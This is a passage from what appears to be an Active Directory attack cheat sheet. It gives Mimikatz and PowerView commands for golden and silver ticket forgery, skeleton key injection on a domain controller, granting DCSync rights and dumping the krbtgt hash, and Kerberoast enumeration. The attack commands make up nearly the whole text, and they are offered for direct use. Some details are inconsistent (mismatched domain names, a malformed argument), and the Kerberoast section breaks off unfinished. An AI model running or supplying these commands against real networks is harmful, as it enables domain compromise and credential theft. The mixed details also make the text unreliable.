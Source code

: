### Golden Ticket

- **Invoke-Mimikatz:**
```powershell
# Execute mimikatz on DC as DA to get hashes
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# Golden Ticket
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /krbtgt:0c88028bf3aa6a6a143ed846f2be1ea4 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### Silver Ticket

- **Invoke-Mimikatz:**
```powershell
# Silver Ticket for service HOST
Invoke-Mimikatz -Command '"kerberos::golden /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:0c88028bf3aa6a6a143ed846f2be1ea4 /user:Administrator /ptt"'
```

### Skeleton Key

- **Invoke-Mimikatz:**
```powershell
# Command to inject a skeleton key
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'-ComputerName dcorp-dc.corporate.corp.local
```

### DCSync

- **With PowerView and Invoke-Mimikatz:**
```powershell
# Check if user01 has these permissions
Get-ObjectAcl -DistinguishedName "dc=corporate,dc=corp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "user01") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
# If you are a domain admin, you can grant this permissions to any user
Add-ObjectAcl -TargetDistinguishedName "dc=corporate,dc=corp,dc=local" -PrincipalSamAccountName user01 -Rights DCSync -Verbose
# Gets the hash of krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Privilege Escalation

### Kerberoast

**1. Enumeration with Powerview:**
```powershell
# Find user accounts used as Service accounts with PowerView
Get-NetUser SPN           
```
**2. Enumeration with AD Module:**
```powershell
# Find user accounts used as Service accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
**3. Request a TGS:**
```powershell
# Request a TGS - Phase 1
Add-Type -AssemblyNAme System.IdentityModel
# Request a TGS - Phase 2
```